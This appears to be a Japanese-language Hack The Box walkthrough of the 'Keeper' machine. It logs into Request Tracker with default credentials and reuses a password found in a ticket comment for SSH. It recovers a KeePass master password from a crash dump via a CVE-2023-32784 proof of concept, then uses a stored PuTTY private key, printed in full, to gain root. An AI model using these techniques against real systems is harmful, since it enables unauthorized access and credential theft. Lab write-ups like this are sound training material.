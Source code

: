 https://app.hackthebox.com/machines/Keeper

## STEP 1
```sh
└─$ rustscan -a 10.129.190.164 --scripts none
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Where '404 Not Found' meets '200 OK'.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.190.164:22
Open 10.129.190.164:80
10.129.190.164 -> [22,80]
```


## STEP 2
80番にアクセス  
別のurlにアクセスするよう言われている  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_01.png">  
/etc/hosts/を編集
```sh
└─$ echo '10.129.229.41 tickets.keeper.htb' | sudo tee -a /etc/hosts
10.129.229.41 tickets.keeper.htb
```
再度アクセス  
[リンク](https://rt-wiki.bestpractical.com/wiki/RecoverRootPassword)よりデフォルトクレデンシャル root/password が判明、ログインできた　　
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_02.png">  
Adminタブから、lnorgaard というユーザを確認できるが、コメントからパスワードが「Welcome2023!」と判明した  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_03.png">  
22番が開いていたので、先ほどのクレデンシャルでsshログイン、成功！ユーザフラグゲット
```sh
└─$ ssh lnorgaard@10.129.190.164    
The authenticity of host '10.129.190.164 (10.129.190.164)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.190.164' (ED25519) to the list of known hosts.
lnorgaard@10.129.190.164's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
86a82b35f5d9dbf56d69283eafbf4ff7
```


## STEP 3
ユーザフラグと同フォルダ内に、zipがあったのでkaliにダウンロード
```sh
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt


lnorgaard@keeper:~$ exit
logout
Connection to 10.129.190.164 closed.


└─$ scp lnorgaard@10.129.190.164:/home/lnorgaard/RT30000.zip .
lnorgaard@10.129.190.164's password: 
RT30000.zip
```
zipには、メモリダンプファイルと.kdbxがあった  
kdbxはkeepas（パスワード管理ツールのパスワードが入ったファイル）だそう
```sh
└─$ unzip RT30000.zip                  
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx


└─$ file KeePassDumpFull.dmp                                                                                 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
                                                                                                                                                                                                                                            

└─$ file passcodes.kdbx     
passcodes.kdbx: Keepass password database 2.x KDBX
```
.kdbxを開くにはkaliでは「keepass2」コマンドでできる  
実際に開くとパスワードが必要っぽい  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_04.png">  
パスワードをクラックしてみたが、失敗．．．
```sh
└─$ keepass2john passcodes.kdbx > keepass.txt


└─$ john --wordlist /usr/share/wordlists/rockyou.txt --format=keepass keepass.txt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:23 DONE (2025-07-12 07:25) 0g/s 153.5p/s 153.5c/s 153.5C/s notused..sss
Session completed.
```
先ほどのブラウザで、keepasのissueに関するチケットを lnorgaard が作成したこと確認  
とういことはzip内のメモリダンプはkeepasのクラッシュダンプね  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_05.png">  
ここでkeepasは、CVE-2023-32784が存在しクラッシュダンプからパスワードを復元できる脆弱性があるらしい
PoCを試してみると文字列は抽出できたが、何文字が欠落しているっぽい
```sh
└─$ wget https://raw.githubusercontent.com/z-jxy/keepass_dump/refs/heads/main/keepass_dump.py
--2025-07-12 10:30:42--  https://raw.githubusercontent.com/z-jxy/keepass_dump/refs/heads/main/keepass_dump.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14948 (15K) [text/plain]
Saving to: ‘keepass_dump.py’

keepass_dump.py                                            100%[========================================================================================================================================>]  14.60K  --.-KB/s    in 0s      

2025-07-12 10:30:43 (77.3 MB/s) - ‘keepass_dump.py’ saved [14948/14948]


└─$ python3.13 keepass_dump.py -f KeePassDumpFull.dmp 
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
```
ぐぐってみると、「rødgrød med fløde」の文字を発見  
deeplで翻訳してみるとデンマーク語らしい、どうやって入力するねん  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_06.png">  
「rødgrød med fløde」で開くことができた、どうやらputty形式のssh秘密鍵が保存されている
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_07.png">  
putty形式のssh秘密鍵を保存
```sh
└─$ cat putty                                                                                                           
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
ssh秘密鍵に変換してrootログイン成功！ルートフラグゲット！
```sh
└─$ puttygen putty -O private-openssh -o ida_rsa

└─$ ssh -i ida_rsa root@10.129.190.164
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
dd05820dc970d89af4d2893b0b9a3027
